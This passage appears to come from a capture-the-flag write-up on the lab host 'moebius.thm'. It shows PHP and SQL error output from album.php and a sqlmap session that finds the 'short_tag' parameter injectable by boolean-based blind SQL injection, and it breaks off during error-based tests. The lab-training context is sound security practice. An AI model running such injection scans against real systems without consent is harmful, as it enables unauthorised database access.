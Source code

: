 ```jsx

```

### they are vulnerable to Local File Inclusion (LFI)

```

Warning: Trying to access array offset on false in /var/www/html/album.php on line 32
Connection failed: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```

- └─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=
    
    ```
    └─$ sqlmap -u 'http://moebius.thm/album.php?short_tag='
            ___
           __H__
     ___ ___["]_____ ___ ___  {1.9.2#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [']_|_|_|__,|  _|
          |_|V...       |_|   https://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 12:08:49 /2025-04-29/
    
    [12:08:49] [WARNING] provided value for parameter 'short_tag' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
    [12:08:49] [INFO] testing connection to the target URL
    [12:08:49] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
    [12:08:49] [INFO] checking if the target is protected by some kind of WAF/IPS
    [12:08:49] [INFO] testing if the target URL content is stable
    [12:08:50] [INFO] target URL content is stable
    [12:08:50] [INFO] testing if GET parameter 'short_tag' is dynamic
    [12:08:50] [WARNING] GET parameter 'short_tag' does not appear to be dynamic
    [12:08:50] [INFO] heuristic (basic) test shows that GET parameter 'short_tag' might be injectable (possible DBMS: 'MySQL')
    [12:08:50] [INFO] heuristic (XSS) test shows that GET parameter 'short_tag' might be vulnerable to cross-site scripting (XSS) attacks
    [12:08:50] [INFO] testing for SQL injection on GET parameter 'short_tag'
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
    [12:09:15] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [12:09:15] [WARNING] reflective value(s) found and filtering out
    [12:09:16] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
    [12:09:16] [INFO] testing 'Generic inline queries'
    [12:09:17] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [12:09:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
    [12:09:26] [INFO] GET parameter 'short_tag' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --not-string="32")                                     
    [12:09:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'                                                                             
    [12:09:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
    [12:09:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'                                                                                         
    [12:09:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
